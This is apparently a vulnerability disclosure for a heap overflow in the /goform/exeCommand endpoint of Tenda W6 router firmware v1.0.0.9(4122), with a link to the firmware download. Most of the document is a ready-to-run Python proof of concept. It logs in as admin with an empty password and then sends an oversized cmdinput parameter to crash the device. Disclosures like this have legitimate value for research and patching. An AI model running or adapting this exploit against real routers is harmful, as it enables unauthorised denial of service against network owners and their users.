

# Tenda W6 Heap Overflow Vulnerability

## Device Vulnerability Introduction 
Tenda W6 is an enterprise wireless AP router from Tenda Technology (Shenzhen, China).

A heap overflow vulnerability in /goform/exeCommand in Tenda W6 v1.0.0.9(4122) allows an attacker to construct cmdinput parameters for a heap overflow. An attacker can use this vulnerability to cause a denial of service (DoS). 

Firmware Download：https://www.tenda.com.cn/download/detail-2576.html

## Vulnerability exploit process



A denial of service (DoS) can be caused by modifying the heap structure when freeing after a heap overflow.

```python
import requests
from pwn import *


burp0_url = "http://192.168.5.1/login/Auth"
burp0_headers = {"Host":"192.168.5.1",
"Content-Length":"65",
"Accept":"*/*",
"X-Requested-With":"XMLHttpRequest",
"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36",
"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
"Origin":"http://192.168.5.1",
"Referer":"http://192.168.5.1/main.html",
"Accept-Encoding":"gzip, deflate",
"Accept-Language":"en-US,en;q=0.9",
"Connection":"close"}

data1='usertype=admin&password=&time=2022;7;6;14;9;6&username='
requests.post(burp0_url,headers=burp0_headers,data=data1, verify=False,timeout=1)

print len(data1)

# sleep(0.1)

burp0_url = "http://192.168.5.1/goform/exeCommand"
burp0_headers = {"Host":"192.168.5.1",
"Content-Length":"295",
"Accept":"*/*",
"X-Requested-With":"XMLHttpRequest",
"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36",
"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
"Origin":"http://192.168.5.1",
"Referer":"http://192.168.5.1/main.html",
"Accept-Encoding":"gzip, deflate",
"Accept-Language":"en-US,en;q=0.9",
"Cookie":"user=",
"Connection":"close"}

data1="cmdinput="+'a'*0x100


requests.post(burp0_url,headers=burp0_headers,data=data1, verify=False,timeout=1)
print len(data1)
```

[The specific reproduction process is shown in the video](./video/1.mp4)
